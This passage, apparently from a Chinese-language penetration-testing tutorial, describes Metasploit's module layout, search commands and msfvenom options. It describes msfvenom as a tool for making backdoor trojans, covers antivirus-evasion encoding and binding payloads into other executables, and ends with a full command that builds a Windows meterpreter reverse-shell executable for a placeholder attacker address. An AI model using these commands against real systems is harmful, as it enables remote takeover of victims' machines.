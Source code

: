   ```
  - `auxiliary` ：辅助模块（端口扫描、密码爆破、漏洞验证等）
  - `encoders` ： 编码器
  - `evasion`： 躲避模块（绕过杀软）
  - `exploits`： 漏洞利用
  - `nops`：payloads 生成时用到
  - `payloads`：攻击载荷
  - `post`：后渗透模块（渗透成功后对目标机器发送指令）
- `plugins`：插件。使用时需要单独加载
- `tools`： 工具集
- `scripts` ： 利用脚本
- `data`： 存放数据的文件（例如字典）
- `config`： 配置文件
- `db`： 数据库文件
- `lib`： 库文件



# msf 核心功能



## msf 核心模块与功能

> 上面目录结构中都已经标出，使用 `search` 命令可以查看这些模块

- `search auxiliary`
- `search exploits`
- `search payloads`
- `search post`
- `search encoders`
- `search evasion`



## msfvenom 介绍

> 在 Kali 中，`msfvenom` 取代了 `msfpayload` 和 `msfencode`，常用于生成后门木马

#### msfvenom 常用参数

- `-l`：列出指定模块的所有可用资源。模块类型包括（`payloads`、`encoders`、`nops`、`all`）
- `-p`：指定需要使用的 `payload`
- `-f`：指定输出的格式
- `-e`：指定需要使用的 `encoder`编码免杀
- `-a`：指定 `payload` 的目录架构
- `-o`：保存 `payload` 文件输出
- `-b`：设定规避字符集
- `-n`：为 `payload` 预先指定一个 `NOP` 滑动长度
- `-s`：设定有效攻击载荷的最大长度，也就是文件大小
- `-i`：指定 `payload` 的编码次数
- `-c`：指定一个附加的 `win32 shellcode` 文件
- `-x`：指定一个自定义的可执行文件作为模板（捆绑程序）
- `-k`：保护模板程序的动作（捆绑程序）
- `-v`：指定一个自定义变量以确定输出格式

#### Windows 平台生成 `payload` 命令

```shell
msfvenom -a x86 --platform Windows -p windows/meterpreter/reverse_tcp LHOST=xxx.xxx.xxx.xxx LPORT=xxxx -e x86/shikata_ga_nai -b "\x00\x0a\xff" -i 10 -f exe -o payload.exe
```
